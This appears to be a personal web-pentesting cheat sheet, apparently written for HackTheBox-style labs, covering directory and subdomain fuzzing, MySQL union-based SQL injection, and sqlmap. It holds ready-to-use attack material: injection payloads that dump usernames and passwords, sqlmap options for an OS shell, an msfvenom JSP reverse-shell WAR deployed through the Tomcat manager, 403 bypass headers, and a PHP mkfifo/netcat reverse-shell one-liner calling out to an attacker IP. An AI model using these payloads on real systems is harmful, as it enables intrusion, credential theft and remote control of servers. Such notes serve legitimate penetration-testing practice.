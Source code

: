 ```yaml
---
sidebar_position: 2
---
```


# Web 

## Scanning

When given a url, domain, or ip with http port, do some web scanning to find additional endpoints, folders, or whatever potentially accessible paths. 

:::tip My tip

If you get a 403 on one dir, try enumerating more dirs and files UNDER that 403 dir!

:::

Fav wordlists for different purposes:
* `/usr/share/dirb/wordlists/common.txt`
* `/usr/share/wordlists/rockyou.txt`

For fast scanning with multiple file extension prefixes, I personally think dirbuster is easier, but I'm more used to copy-pasting wfuzz commands.

### Wfuzz

Find directory

```bash
wfuzz -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -Z --hc 404 https://ip.htb/FUZZ
```

Find files (php)

```bash
wfuzz -w /usr/share/seclists/Discovery/Web-Content/PHP.fuzz.txt --hc 404 https://laboratory.htb/FUZZ
```

Find files (apache)

```bash
wfuzz -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt -Z --hc 404,500 http://academy.htb/FUZZ
```

Find subdomain

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.academy.htb" --hc 404,302 --hw 356 -t 100 10.10.10.215

wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://target.tld' -H "Host: FUZZ.target.tld" --hw 290
```

### Other scanners

```bash
feroxbuster -u https://10.10.10.250:443 -t 10 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x "txt,html,php,asp,aspx,jsp" -v -k -n -o /home/unicorn011/Desktop/HTB/seal/results/10.10.10.250/scans/tcp_443_https_feroxbuster_big.txt
```

## File inclusion

## SQL injection

:::tip My tip

For MSSQL, NO DOUBLE QUOTES! USE DOUBLE SINGLE QUOTES!!

:::

### Manual

Awesome cheatsheets:
* [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

#### MySQL

Start with finding number of columns. For example, using union-based select statement + order by until SQL error:

```SQL
union select * from price order by 1
union select * from price order by 2
...
```

Find databases:
```SQL
union select 1,group_concat(0x7c,schema_name,0x7c),3,4,5,6,7,8,9 from information_schema.schemata
```

Find tables:
```SQL
union select 1,group_concat(0x7c,table_name,0x7c),3,4,5,6,7,8,9 fRoM information_schema.tables where table_schema="web"
```

Find columns:
```SQL
union select 1,group_concat(0x7c,schema_name,0x7c),3,4,5,6,7,8,9 fRoM information_schema.columns where table_name="backend_users"
```

Read data:
```SQL
union select 1,group_concat(0x7c,username,0x7c),group_concat(0x7c,password,0x7c),4,5,6,7,group_concat(0x7c,description,0x7c),9 fRoM backend_users
```

### Tools

Wfuzz
```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "username=FUZZ&password=ss" --hc 200 -u http://admin.cronos.htb/index.php
```

SQLmap:
* [official usage tutorial](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* [cheatsheets](https://thedarksource.com/sqlmap-cheat-sheet/)

GET
```bash
sqlmap -u "https://target_site.com/page?p1=value1&p2=value2" -p p1
```

POST
```bash
sqlmap -u http://10.10.10.58:3000/api/session/authenticate --data "username=1&password=2" -p "username,password" --method POST
```
Can also export from Burp with 'Copy to File', then import into sqlmap with `sqlmap -r <file>`. Remember to remove injection payload in file first.

Useful options:
* listing stuff
    * dbs: `--dbs`
    * tables: `-D <target DB> --tables`
    * columns: `-D <target DB> -T <target table> --columns`
* dumping
    * a specific column: `-D <target DB> -T <target table> -C "Col1,Col2" --dump`
    * everything(READ: will take FOREVER): `--dump`
* get shell
    * get os shell: `--os-shell`
    * get SQL shell: `--sqlmap-shell`

## Other Tips

1. If running Tomcat and we have credentials, deploy war file with reverse shell like [this](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script)

    ```
    # generate reverse shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f war -o shell.war

    # tomcat 6
    curl --upload-file target\debug.war "http://tomcat:tomcat@localhost:8088/manager/deploy?path=/debug&update=true"

    # tomcat 7 & 8
    curl -v -u some_user:some_password -T /../my_app.war 'http://127.0.0.1:tomcat_port/manager/text/deploy?path=/my_app&update=true'

    then visit http://webite/shell
    ```

2. Bypass 403 with forged IP headers, such as `X-Forwarded-For`, `X-Client-IP`, `X-Remote-Addr`
3. Upload web.config to get RCE: [Uploading web.config For Fun and Profit](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)
4. If `/cgi-bin` exists, try scanning for `.sh .pl .cgi` files under it. (Try common.txt wordlist) There might be `shellshock`!
5. Stable PHP reverse shell: `passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f");`